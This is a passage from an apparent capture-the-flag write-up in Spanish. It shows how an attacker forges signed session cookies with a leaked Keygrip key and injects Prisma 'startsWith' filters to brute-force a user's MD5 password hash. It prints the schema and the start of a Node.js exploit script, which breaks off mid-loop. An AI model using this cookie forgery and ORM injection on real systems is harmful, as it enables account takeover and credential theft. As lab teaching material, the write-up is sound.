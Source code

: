 > Prisma es una libreria ORM para node.js que funciona tanto con DBMS y File Databases, como MySQL, SQLite, PostgreSQL, MSSQL, etc.
{: .prompt-info }

La operación `where` que está haciendo prisma busca por objetos files que tengan un `author` que coincida con el de la sesión, en esta librería es posible concatenarle a la busqueda otras busquedas en las propiedades mediante operadores como `startsWith`, `equals` y `endsWith`, pero para saber por que cosas podemos filtrar, tenemos que conocer el modelo que se espera en `author`. Buscando por los docs de Prisma encontraremos que se almacenan en `PROJECT/node_modules/.prisma/client/schema.prisma` 

```js
// This is your Prisma schema file,
// learn more about it in the docs: https://pris.ly/d/prisma-schema

generator client {
  provider = "prisma-client-js"
}

datasource db {
  provider = "postgresql"
  url      = env("DATABASE_URL")
}

model User {
  id       Int    @id @default(autoincrement())
  username String @unique
  password String
  files    File[]
}

model File {
  id         String   @id @default(uuid())
  name       String
  size       Int
  private    Boolean  @default(false)
  uploadedAt DateTime @default(now())
  author     User?    @relation(fields: [authorId], references: [id])
  authorId   Int?
}
```
{: filename="schema.prisma" }

Si miramos el modelo `File`, veremos que el campo `author` corresponde al modelo `User`; al estar esperando todo el objeto de la sesión, podemos hacer un ataque de fuerza bruta booleano con el campo `password` utilizando `startsWith` para obtener la contraseña, viendo la ruta de registro veremos que están hasheadas en MD5 por lo que limitaremos el alfabeto a solo hexadecimal. Será algo rápido obtener el hash pero hay que programar esta lógica.

El usuario al que le estaremos intentando sacar el hash de su contraseña será el que vimos en el `package.json`, wesley.

```js
const axios = require("axios");
const Keygrip = require('keygrip');

const chars = "abcdef1234567890";
let grip = new Keygrip(["8929874489719802418902487651347865819634518936754"]);

async function test(text){
  let found = text;
  let next = "";

  for(char of chars){
    let value = "download_session=" + Buffer.from(JSON.stringify({user:{username: {equals: 'WESLEY'}, password: {startsWith: found + char}}})).toString('base64');
```
